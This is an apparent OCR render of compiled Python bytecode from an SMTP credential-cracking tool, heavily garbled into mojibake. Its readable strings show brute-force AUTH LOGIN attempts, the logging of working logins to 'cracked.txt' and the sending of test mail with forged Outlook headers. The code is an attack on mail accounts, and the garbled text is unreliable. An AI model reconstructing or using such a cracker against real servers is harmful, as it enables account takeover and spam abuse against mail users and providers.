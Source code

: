  |
 d d
 !d k rþ|  j
 | d ƒ | j ƒ  |  j | ƒ S|  j
 | t j | ƒ ƒ }
 |
 d d
 !d k rS|  j
 | d ƒ | j ƒ  |  j | ƒ S|  j
 | t j | ƒ ƒ }
 |
 d d
 !d k sd |
 k r«|  j
 | d ƒ | j ƒ  d Sd | d
 | d | d | GHt d d ƒ j | d
 | d | d | d ƒ t j | ƒ |  j
 | d ƒ }
 |
 d d
 !d k rW|  j
 | d ƒ | j ƒ  |  j | ƒ S|  j
 | d | d ƒ }
 |
 GH|
 d d
 !d k r°|  j
 | d ƒ | j ƒ  |  j | ƒ S|  j
 | d t d ƒ }
 |  j
 | d t d ƒ }
 |
 d d
 !d k r|  j
 | d ƒ | j ƒ  |  j | ƒ S|  j
 | d ƒ }
 d  | d! } | d" t d# 7} | d$ t d# 7} | d% t d# 7} | d$ t d# 7} | d& | | | | f d# 7} | d' 7} | d( 7} | d) 7} | d* 7} | d+ 7} | d, 7} | d- 7} | d. 7} | j | ƒ | j d/ ƒ }
 |  j
 | d ƒ | j ƒ  WnW t k
 r„} t d0 d ƒ j | d
 | d
 t	 | ƒ d ƒ | j ƒ  |  j | ƒ SXd  S(1   Ni    i   i   Ru   RQ   iÿÿÿÿt   465s   (SSL)s   [+] Trying Re   t    i   i   t   220t   QUITs
   EHLO ADMINs
   AUTH LOGINt   334t   235t   fails   [!] WOLFS AUAUAUUAAU s   cracked.txtR8   t   ,s   
t   RSETt   250s   MAIL FROM: <t   >s
   RCPT TO: <t   DATAs   From: <s   > 
s   To: s   
s   Bcc: s
   Reply-To: s   Subject: %s:%s %s %ss   MIME-Version: 1.0
s!   Content-Transfer-encoding: 8bit
s   Return-Path: +user+
s   X-Priority: 1
s   X-MSmail-Priority: High
s5   X-Mailer: Microsoft Office Outlook, Build 11.0.5510
s:   X-MimeOLE: Produced By Microsoft MimeOLE V6.00.2800.1441
s
   HEllo
.
iè  s   hm.txt(   t   rstript   crackedRb   Rz   R:   R   Rj   Rk   Rp   R1   R[   RZ   R^   R`   R2   Rd   t   base64t	   b64encodeR   RB   RC   t   emailt
   smtp_checkR]   R0   (